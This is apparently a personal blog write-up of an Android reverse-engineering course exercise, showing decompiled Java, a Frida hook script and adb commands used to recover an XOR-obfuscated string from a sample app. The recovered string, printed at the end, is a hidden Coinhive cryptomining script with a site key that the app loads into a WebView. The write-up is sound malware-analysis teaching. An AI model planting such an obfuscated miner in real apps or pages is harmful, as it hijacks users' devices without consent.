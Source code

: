 ```yaml
---
layout: post
title: "Deobfuscating with Frida Exercise"
date: 2022-07-06
---
```


Lately been diving a little deeper into my side journey with Android app reversing.

I went over Maddie Stone's amazing Android Reversing course [here](https://www.ragingrock.com/AndroidAppRE/app_fundamentals.html). I decided to take on one exercise at a time. The [last exercise](https://www.ragingrock.com/AndroidAppRE/obfuscation.html#exercise-7---string-deobfuscation) in the course goes over string deobfuscation. There are Java methods that are passed in app to take a mysterious obfuscated string and reverse it back to being human readable for a Webview method to load it.

```
webView.loadData(z1.b(new String(z1.a("773032205849207A38313
26F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B531637352
22D393B475C7A37222D7F38421B6A6664303220584920647730322058492
0643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5
F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B1
01F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342
E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8"))), "text/html", null);
```

In the exercise, it was cracked by reimplementing the methods in Python and mirroring the code to deobfuscate the string. However, I came across an [interesting tutorial](https://1337.dcodx.com/mobile-security/owasp-mstg-crackme-1-writeup-android) using [Frida](https://frida.re/). A "Dynamic instrumentation toolkit for developers, reverse-engineers, and security researchers." Being a Frida novice I wanted to take the time to learn more beyond using given scripts. Even though the community scripts are very very useful! With Frida, you can utilize and load the classes and methods to sort of "replay" what the app is doing with the data passed to it. So, combining this knowledge with the exercise from Maddie's course, I tried my hand at dynamically cracking the string using the methods as given in the example app.

I. Install the app on an Android device. I grabbed the `.apk` out of the VM given in the exercise from Android RE course and installed on an emulated Android.

`adb install apks\ClashOfLights.apk`

Side note: I already have Android Studio installed and like it for a few reasons. Not only does it have Android Emulator tool, but you can add a JADX-GUI plugin to decompile APKs.

II. Write the Javascript hook Frida will use.

Looking at this code snippet, I threw in the one class and 2 methods I would need.

```
package com.supercell.titan;

/* loaded from: classes.dex */
public class z1 {
    private static final char[] a = "0123456789ABCDEF".toCharArray();

    public static byte[] a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }
}
```

So I need class `z1` and it's methods, `a` and `b`.

**deob.js**
```

setImmediate(function() {
    console.log("[*] Start");

    Java.perform(function() {

        var str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D3
        93B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C3
        83C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331
        717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

        console.log("[*] Loading z1")
        var clazz_z1 = Java.use('com.supercell.titan.z1');
        // var bytes = clazz_z1.a(str); For some reason the byte array had spaces so had I just hardcoded it below for clarity of what method z1.a does...
        console.log("[*] UTF-8 String from Byte array created from clazz_z1.a(str)")
        var str2 = String.fromCharCode(119,48,50,32,88,73,32,122,56,49,50,111,19,81,32,46,59,48,107,125,30,90,59,
        51,37,43,56,36,84,23,55,53,38,108,61,59,83,22,55,53,34,45,57,59,71,92,122,55,34,45,127,56,66,27,106,102,
        100,48,50,32,88,73,32,100,119,48,50,32,88,73,32,100,61,34,35,114,92,80,58,63,57,99,108,114,95,92,35,122,
        8,44,56,60,121,80,34,63,101,2,63,61,95,64,57,53,62,48,121,117,95,95,102,110,17,52,20,31,92,76,100,55,122,
        27,103,31,86,90,27,44,127,123,16,31,66,112,13,31,57,51,23,23,22,21,116,33,63,43,35,55,80,93,39,96,107,113,
        44,123,10,84,61,52,46,49,127,33,69,88,38,46,99,106,106,110,30,74,55,40,34,51,37,108)
        console.log("[*] Using method b from class z1")
        var result = clazz_z1.b(str2);
        console.log()
        console.log("****** DEOBFUSCATED STRING ******")
        console.log(result)
        console.log("****** DEOBFUSCATED STRING ******")
        console.log()
    })
    
    console.log("[*] End");

})

```

Not pretty, but does the job!


III. Orchestrate the Frida server on the emulated Android and then hook this JS into the app to run.


`adb push ./frida-server-15.1.20-android-x86 /data/local/tmp/frida-server` <--- based on architecture of the device. Frida docs are great with guiding with this but I also love [this tutorial](https://httptoolkit.tech/blog/frida-certificate-pinning/#install-and-start-frida-on-the-device) as well.

`adb root`

`adb shell "chmod 755 /data/local/tmp/frida-server"`

`adb shell "/data/local/tmp/frida-server &"`

`frida -U -l ./deob.js -f com.clashof.lights`s

Running this I got:

```
C:\Users\Alexis\platform-tools>frida -U -l ./deob.js -f com.clashof.lights
     ____
    / _  |   Frida 15.1.20 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Spawning `com.clashof.lights`...
[*] Start
[*] End
Spawned `com.clashof.lights`. Use %resume to let the main thread start executing!
[Android Emulator 5554::com.clashof.lights ]-> %resume


Frida Output

[*] Start
[*] Loading z1
[*] UTF-8 String from Byte array created from clazz_z1.a(str)
[*] Using method b from class z1

****** DEOBFUSCATED STRING ******
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
****** DEOBFUSCATED STRING ******

[*] End
```

There you go, the deobfuscated string dynamically grabbed through Frida! I suspect this type of obfuscation method isn't necessarily that common. But I plan to use this use case for other types of dynamic analysis in the future!
